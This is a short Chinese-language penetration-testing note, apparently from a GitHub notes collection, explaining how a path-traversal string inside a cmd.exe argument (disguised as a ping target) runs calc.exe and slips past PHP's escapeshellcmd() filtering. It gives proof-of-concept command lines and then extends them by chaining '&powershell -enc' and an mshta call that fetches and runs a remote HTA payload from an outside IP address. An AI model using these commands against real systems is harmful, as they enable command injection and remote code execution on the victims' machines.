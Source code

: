	From: https://hackingiscool.pl/
	poc完整的命令行
	cmd.exe /c "ping 127.0.0.1/../../../../../../../../../../windows/system32/calc.exe"
	可能产生的影响
	包括拒绝服务，信息泄露，任意代码执行（取决于目标应用程序和系统）。
	以web应用为例
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/660.png)

	由于使用了escapeshellcmd()，不易受命令注入的影响，使用本方法
	一个poc
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/661.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/662.png)

	不限于任何位置，文件
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/663.png)

	再扩展一下 
	如，powershell带-enc执行，或mshta等方法，可参考
	https://lolbas-project.github.io/，但是依照windows的特性，在无法将完整字符串解析为有效路径的情况下，会拆分空格后面的内容，这里可以使用&符号
	如：
	>cmd.exe /c "cmd /c /../../../../../../../../../../windows/system32/calc&powershell -enc xxxx"
	>cmd.exe /c "cmd /c /../../../../../../../../../../windows/system32/calc&mshta http://192.168.0.105:8080/xsuUEWJ.hta"